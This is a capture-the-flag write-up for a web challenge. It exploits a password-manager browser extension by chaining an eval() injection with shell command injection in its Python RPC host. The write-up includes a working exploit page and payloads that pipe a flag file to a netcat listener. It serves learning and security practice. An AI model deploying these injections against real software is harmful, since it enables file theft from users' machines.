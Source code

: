 # First Fail (Web 400)
We are devloping a new secure password manager! Test it out here: http://challenge.acictf.com:12457
- Does the password manager page perform any insecure actions?
- Try to create a new entry directly

# Installing
This turned out to be the most difficult piece of this challenge for me. I'm running on macOS, so, I had to modify the installation process locations for my machine.

TODO: Detailed steps

Once all done, for some odd reason the plugin would quit unless I ran chrome from the command line.

# Analysis
To get a sense for what this extension does and how it works, we can look through and get a good sense for what's happening.

1. The extension installs and injects some API code into each page that loads. This code is in `api.js`.

2. It sets up an RPC server, which will respond to requests from the browser. This server is run via `host.py`.

3. Once loaded, the extension will communicate via RPC to the server, to get information on the passwords stored for a website.

So, with a general idea, let's dive into seeing what we have for attack surface area.

1. We have the extension, but, we installed that locally.

2. When we load the test website, it tells us the flag is located at `/opt/problems/firstfail_9_fb7f1db7f59364d8901213581e8497af/flag.txt`.

3. We also are given a web URL submission box, that the admin will supposedly visit with the plugin installed.

From this, it appears that we need to somehow craft an exploit via this extension that can read a file on the filesystem. This needs to be delivered via a URL we provide to the admin.

Looking at the scripts we have, `manager.js` sticks out directly as it runs an `eval()` on the data it receives from a stored file.

```JavaScript
for (let account of msg.entries) {
  eval(account);
  ...
}
```

We also notice that the RPC server has some unsafe handling of input when it loads the stored data.

```python
def get_entries(pattern):
    try:
        res = subprocess.check_output('cat data/'+pattern, shell=True)
        return res.decode('latin-1').strip().split('\n')
    except Exception as e:
        logging.exception(str(e))
        return []
```
Finally, we see we can call any of these endpoints via a post message. However, we can't make use of the built-in message sending from the browser, as, a request to the entries endpoint will remove any payload we attach:
```javascript
if (msg.type === 'add_password') {
  msg.host = location.host;
} else if (msg.type === 'get_password' || msg.type === 'entries') {
  // Make domain wildcard pattern to match any subdomain
  let domain = location.host.split('.').slice(-2).join('.')
  msg.pattern = `*${domain}`;
}
```


# Approach
My approach to this will be in a few stages. First, I'll test an exploit locally using only the two vulnerabilities above. Then, I can try to find a way to change the data file on the remote computer.

1. To solve the first piece, I simply need to create a string in the appropriate data file that will run some code in the `eval()` call. As a simple PoC, you can try this:
```JavaScript
username=console.log('testing injection'),password="test"
```
Once added to the file, I can load the manager page in the browser, at `chrome-extension://cegaaaajnnledpnkmnjenhbakdijgcjo/manager.html`. If this worked as expected, we should see a log in the page console, and we do!

2. Now we want to read a file on disk. This can be a bit difficult, since the chrome sandbox will restrict access to local files. However, the RPC server at `host.py` does not have the same restrictions. So, I'm going to craft a payload that the `eval()` will execute, which will send a post message directly to the RPC server, with a command injection. Since this will be sent from a different source, the bit in `app.js` that changes the `entries` messages will not execute.

To make sure I can easily see the output, I simply setup a netcat listener and then use the following injection to test:
```
username=port.postMessage({type: 'entries',pattern: '; echo test | nc 127.0.0.1 1337'}),password="test"
```

I add this to the file, and remove the other tests, then load the manager page, and I see that the listener I setup has in fact received the word `test`.

3. Now, we need to find a way to write this injection into the remote data file. The first tempting option is the `add_password` endpoint, however, we can see from the Python implementation that this will properly escape our input and we won't actually be able to inject any code.
```python
def add_password(host, username, password):
    store_entry(host, 'username=%s,password=%s'%(
        json.dumps(username),
        json.dumps(password)))
    logging.info('Added new password for %s user %s'%(host, username))
```
However, we can see from the above it calls the function `store_entry()`. This function doesn't change our input in any way, so this is perfect.
```python
def store_entry(host, entry):
    host = host.replace('/','')
    with open(os.path.join('data',host), 'a') as f:
        f.write(entry+'\n')
```
Looking closer at the RPC message handler, we can see there is an endpoint to this function directly, `add_entry`:
```python
def rpc_process(msg):
    if msg['type'] == 'add_password':
        add_password(msg['host'],msg['username'],msg['password'])
        return None
    if msg['type'] == 'add_entry':
        store_entry(msg['host'],msg['entry'])
        return None
```
So, as a final recap of the solution to this stage:
1. I'll write a malicious Javascript line into the data file, using a post message to the `add_entry` endpoint.
2. That payload will execute in eval when the manager page is opened.
3. This payload will make a post request to the `entries` endpoint, with a specially crafted pattern to cat the flag and pipe it to a netcat listener.

4. The final step to put this all together is to put it all into a website that I can send to the admin. You can see my example at exploit.html. Since the extension is available in the page, I simply send my requests via it, and then make use of the `openManager()` function to automatically take the admin to the management page (which will execute my payload).
```javascript
window.onload = function() {
  if (window.PasswordManager === undefined) {
    document.getElementById('notice').innerHTML = `<h2 style="color:red">You do no have Secure Password Manager installed...</h2>`;
  } else {
    Promise.race([window.PasswordManager.ping(), new Promise((resolve, reject) => {
      setTimeout(reject,1000);
    })]).then((r)=>{
      window.postMessage({
          type:'add_entry',
          host:"challenge.acictf.com:12457",
          entry: "username=port.postMessage({type: 'entries',pattern: '; cat /opt/problems/firstfail_9_fb7f1db7f59364d8901213581e8497af/flag.txt | nc 127.0.0.1 1337'}),password=\"test\""
  }).then(function() {console.log('done')})
    }).catch(()=>{
      window.PasswordManager.openManager()
      document.getElementById('notice').innerHTML = `<h2 style="color:red">You have the plugin installed, but the RPC is not installed correctly...</h2>`;
    });

  }
}
```
And to finalize this exploit, I setup my listener, and setup a webserver with this file. I then send the admin the URL to my newly created page, and then check the listener for the flag.

# Solution
You can see the overall, final exploit in [exploit.html file](exploit.html).
